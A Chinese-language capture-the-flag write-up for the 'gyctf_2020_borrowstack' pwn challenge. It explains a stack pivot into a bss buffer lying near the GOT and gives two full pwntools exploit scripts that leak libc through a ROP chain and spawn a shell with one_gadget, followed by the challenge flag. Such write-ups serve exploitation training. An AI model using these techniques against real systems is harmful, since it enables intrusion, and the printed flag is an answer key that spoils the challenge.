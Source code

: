 # gyctf_2020_borrowstack

[题目地址](https://buuoj.cn/challenges#gyctf_2020_borrowstack)

稍微出点问题我就不会了。

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

main函数没有废话。

```python
undefined8 main(void)

{
  undefined local_68 [96];
  
  setbuf(stdin,(char *)0x0);
  setbuf(stdout,(char *)0x0);
  puts(&DAT_00400728);
  read(0,local_68,0x70);
  puts("Done!You can check and use your borrow stack now!");
  read(0,bank,0x100);
  return 0;
}
```

程序内无system，那就是ret2libc了。read函数可溢出的字节数明显不够，加上程序中有将输入读入到bss段的逻辑，种种迹象表明这是个栈迁移。思路很简单，local_68里装栈迁移的payload，bank里装真正ret2libc需要的payload。

但[wp](https://blog.csdn.net/BengDouLove/article/details/105676078)告诉我们这题有两个问题。第一，bank的地址和got表非常接近，如果直接把栈迁移到bank，执行各种函数时开辟的栈会覆盖掉got表，之后重要函数就没法用了。第二，system无法使用，只能直接one_gadget。第二点不是问题，第一点怎么解决呢？

两种办法。第一种办法：

```python
from pwn import *

context(os='linux',arch='amd64',log_level='debug')

sh = remote("node4.buuoj.cn","26184")

bank_addr = 0x601080
leave_addr = 0x400699
pop_rdi_ret = 0x400703
puts_plt = 0x4004e0
libc_s_got = 0x601030
read_got = 0x601028
main_addr = 0x400626

one_gadget = 0x4526a #[rsp + 0x30] = null

sh.recvuntil("Ｗelcome to Stack bank,Tell me what you want\n")
x = b'A' * 0x60 + p64(bank_addr+0xd0) + p64(leave_addr)  #栈迁移。此处迁移目标地址是bank_addr+0xd0。增加的大小无特殊意义，适当范围内不会覆盖掉got表就好
sh.send(x)

sh.recvuntil("Done!You can check and use your borrow stack now!\n")
x = p64(0x0) * 0x1a + p64(0xdeadbeef) + p64(pop_rdi_ret) + p64(libc_s_got) + p64(puts_plt) +  p64(main_addr) #p64(0x0) * 0x1a填充刚才的0xd0，让ropchain从bank+0xd0开始。p64(0xdeadbeef)是栈迁移标准操作，迁移过来后前4个字节会被弹进ebp，我们要保留paylaod，就加个填充。最后才是要执行的payload
sh.send(x)

libc_s_addr = u64(sh.recvline()[:-1].ljust(8,b'\x00'))
print(hex(libc_s_addr))
system_addr = libc_s_addr + 0x24c50
binsh = libc_s_addr + 0x16c617
libc_base = libc_s_addr - 0x020740

sh.recvuntil("Ｗelcome to Stack bank,Tell me what you want\n")
x = b'A' * 0x60 + p64(bank_addr) + p64(leave_addr)
sh.send(x)

sh.recvuntil("Done!You can check and use your borrow stack now!\n")
x = p64(0xdeadbeef) + p64(one_gadget + libc_base) + p64(0x0) * 10
sh.send(x)
sh.interactive()
```

或者选择使用ret，像这位[大佬](https://blog.csdn.net/mcmuyanga/article/details/109728490)一样：

```python
from pwn import *
from LibcSearcher import *
r=remote('node3.buuoj.cn',29385)

bank=0x0601080
leave=0x400699
puts_plt=0x04004E0
puts_got=0x0601018
pop_rdi=0x400703
main=0x0400626
ret=0x4004c9

r.recvuntil('u want')
payload=b'a'*0x60+p64(bank)+p64(leave)   #栈迁移，这次直接返回到bank
r.send(payload)

r.recvuntil('now!')
payload=p64(ret)*20+p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(main)   #前4个字节被弹入ebp，因此实际执行了19个ret，问题不大。每次ret 栈都会抬高，19次ret后当前执行栈就离got表很远了
r.send(payload)
r.recvline()
puts_addr=u64(r.recv(6).ljust(8,b'\x00'))
print hex(puts_addr)

libc=LibcSearcher('puts',puts_addr)
libc_base=puts_addr-libc.dump('puts')

one_gadget=libc_base+0x4526a
payload=b'a'*(0x60+8)+p64(one_gadget)
r.send(payload)

r.interactive()
```

## Flag
> flag{3003f760-fa11-4f8f-856c-82c6a789c102}